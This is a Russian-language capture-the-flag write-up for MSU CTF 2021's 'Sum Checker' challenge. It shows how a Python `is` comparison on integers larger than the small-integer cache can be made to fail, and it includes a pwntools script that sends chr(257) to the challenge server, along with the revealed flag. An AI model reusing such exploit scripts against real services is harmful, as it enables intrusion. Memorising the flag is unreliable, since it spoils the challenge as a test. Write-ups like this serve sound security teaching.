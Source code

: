 # Sum Checker
_Похоже, разработчик этого сервиса полагается на коммутативность для обеспечения безопасности..._

_nc sum-checker.tasks.2021.ctf.cs.msu.ru 20002_

[checker.py](checker.py)

### Solution
В файле checker.py наблюдаем сравнение пользовательского ввода (после преобразований) оператором is, чтобы получить флаг, нам нужно выполнение следующего условия:
```python
sum([ord(i) for i in our_input]) % 260 is sum([ord(i) for i in our_input[::-1]]) % 260 == False
```

Оператор is используют, чтобы удостовериться, что переменные указывают на один и тот же объект в памяти. Python указывает на один и тот же объект, если его значение не превышает один байт (2**8).
Таким образом, нам остаётся написать скрипт, который отправляет символ с кодом ∈ \[257-259].

[pwm1.py](pwn1.py)
```python
import pwn

c = pwn.connect('sum-checker.tasks.2021.ctf.cs.msu.ru', 20002)
c.recvuntil(':')
c.sendline(bytes(chr(257).encode()))
flag = c.recvuntil('}').decode()
print(flag)

`
Flag: MSKCTF{pr3d3f1n3d_c0n$t4nt$_pai8eege2a}
`
